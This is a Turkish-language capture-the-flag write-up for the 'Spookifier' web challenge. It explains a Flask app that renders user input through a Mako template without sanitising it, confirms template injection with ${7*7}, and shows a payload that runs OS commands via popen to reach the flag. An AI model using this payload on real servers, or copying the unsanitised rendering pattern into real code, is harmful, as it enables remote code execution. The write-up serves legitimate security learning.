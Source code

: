```yaml
---
{"dg-publish":true,"permalink":"/ctf/spookifier-challenges/"}
---
```


Zorluk, Python mako kütüphanesindeki Server-Side Template Injection güvenlik açığının istismar edilmesiyle ilgili.

* Temel Python anlayışı
* Python'da Server-Side Template Injection'dan Yararlanma.

### Uygulama Genel Bakışı  
Uygulamanın ana sayfasını ziyaret ettiğimizde, adımızı göndermek için bir form görüntülenir.

![Pasted image 20250129023608.png](/img/user/Pasted%20image%2020250129023608.png)

Herhangi bir metin gönderdiğimizde, metnin farklı yazı tipi stillerinde varyasyonları oluşturulur.

![Pasted image 20250129023646.png](/img/user/Pasted%20image%2020250129023646.png)

Bu web uygulamasındaki hemen hemen tüm özellikler bunlar.


### Exploiting Server Side Template Injection

Uygulamanın kaynak koduna sahip olduğumuz için, uygulamanın yazı tiplerini nasıl değiştirdiğine bakabiliriz. `application/blueprints/routes.py` dosyasında yalnızca bir rota tanımlanmış:

```
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```


GET parametresi olan "text", ==application/util.py== dosyasında tanımlanan spookify fonksiyonuna iletilir.

```
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

Text değeri daha sonra `change_font` fonksiyonuna iletilir ve nihayetinde sonuç ile birlikte `generate_render` çağrılır.

```

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
```

`change_font` fonksiyonu şu şekilde çalışır:

1. Kullanıcı tarafından girilen metin, bir karakterler listesine dönüştürülür.
2. Bu listedeki her bir karakter, dört farklı sözlükte aranır ve bulunan sonuçlar `current_font` adlı bir listeye eklenir.
3. `current_font` listesi birleştirilerek bir dizi haline getirilir ve `all_fonts` adlı listeye eklenir.
4. Son olarak, `all_fonts` listesi döndürülür ve bu liste, oluşturulan varyasyonları içerir.

Mako template engine'in generate_render fonksiyonu, sonuç listesiyle birlikte bir HTML tablosu oluşturmak için kullanılır:

https://www.makotemplates.org/

![Pasted image 20250129024620.png](/img/user/Pasted%20image%2020250129024620.png)

Kullanıcı tarafından sağlanan içerik sterilize edilmediğinden, template literals enjekte edebilir ve Server Side Template Injection (SSTI) elde edebiliriz. Aşağıdaki şablon ifadesini göndererek bunu doğrulayabiliriz `${7*7}` :

![Pasted image 20250129024736.png](/img/user/Pasted%20image%2020250129024736.png)

Sonuç, değerlendirilen template expression değerini gösterir. PayloadAllTheThings deposunda SSTI aracılığıyla kod yürütme için çalışan bir proof-of concept payload'u bulabiliriz, bu da os modülüne TemplateNamespace'den erişebileceğimizi belirtir:

```
${self.module.cache.util.os.popen('whoami').read()}
```

![Pasted image 20250129024829.png](/img/user/Pasted%20image%2020250129024829.png)

Şimdi /flag.txt dosyasından meydan okuma bayrağını okuyarak bu meydan okumanın görevini tamamlayabiliriz.
